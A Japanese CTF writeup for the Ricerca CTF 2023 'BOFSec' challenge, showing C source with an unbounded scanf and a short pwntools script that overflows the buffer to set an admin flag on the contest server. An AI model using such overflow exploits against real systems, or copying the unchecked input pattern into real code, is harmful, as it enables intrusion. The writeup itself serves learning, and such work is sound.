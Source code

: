 ```yaml
---
title: "Ricerca CTF 2023 Writeups"
emoji: "📝"
type: "tech"
topics:
  - "ctf"
  - "writeup"
  - "pwn"
published: true
published_at: "2023-04-22 22:41"
---
```


# 概要
Ricerca CTF 2023の競技中に解けたBOFSecとNEMUについてwriteupを書く

# BOFSec
## exploit
ソースコードを見るとuser.is_adminがtrueであればflagが表示されることが分かる。userに入力を読む際はget_auth関数が使われている。ソースコードは以下
```c: main.c
auth_t get_auth(void) {
  auth_t user = { .is_admin = 0 };
  printf("Name: ");
  scanf("%s", user.name);
  return user;
}
```
入力を読む際にサイズのチェックがないのでBOFでuser.is_adminに何かしら値を書き込めばよい。ただしSSPが有効なのでこのチェックに引っ掛からない程度の書き込みを行う。exploitは以下。
```python: exploit.py
from pwn import *

binfile = './chall'
elf = ELF(binfile)
context.binary = elf
context.log_level = 'critical'
context.terminal = ["tmux", "splitw", "-h"]

HOST = 'bofsec.2023.ricercactf.com'
PORT = 9001

gs = '''
b main
c
'''

def start():
    if args.GDB:
        return gdb.debug(binfile, gdbscript = gs)
    elif args.REMOTE:
        return remote(HOST, PORT)
    else:
        return process(binfile)

io = start()

io.sendline(b'a' * 0x101)
print(io.recvall());
```
